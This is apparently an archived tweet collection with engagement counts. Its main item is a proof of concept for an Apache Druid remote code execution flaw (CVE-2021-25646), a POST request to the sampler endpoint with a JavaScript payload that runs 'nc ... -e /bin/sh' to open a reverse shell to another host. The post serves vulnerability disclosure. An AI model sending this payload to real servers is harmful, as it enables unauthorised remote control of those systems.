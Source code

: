 <td><img src="pictures/4e8b52dc156c3f7b70fdf79882b355fe1d14a817b1ec48d6349b5b7cc9bc2ba0.jpg" alt="4e8b52dc156c3f7b70fdf79882b355fe1d14a817b1ec48d6349b5b7cc9bc2ba0.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>206</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1357509755544080386 _at 2021-02-05, 02:02:01_**
<blockquote>
Apache Druid JavaScript RCE (CVE-2021-25646)

[PoC]
POST /druid/indexer/v1/sampler HTTP/1.1
...
...
 {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('nc 192.168.1.10 5555 -e /bin/sh')}"

https://t.co/WEwHLan7TD https://t.co/zublpQiYfR
</blockquote>

* https://gist.github.com/FanqXu/36c5e0070fd8e0b6646993b4e386a6b1

<table><tr>
<td><img src="pictures/130804758914c2f4e4a9e5679e882711958ded473b92a97e32f10c6ba3fef73e.jpg" alt="130804758914c2f4e4a9e5679e882711958ded473b92a97e32f10c6ba3fef73e.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>107</code></td>
<td>Favorites: <code>278</code></td>
</tr></table>

---
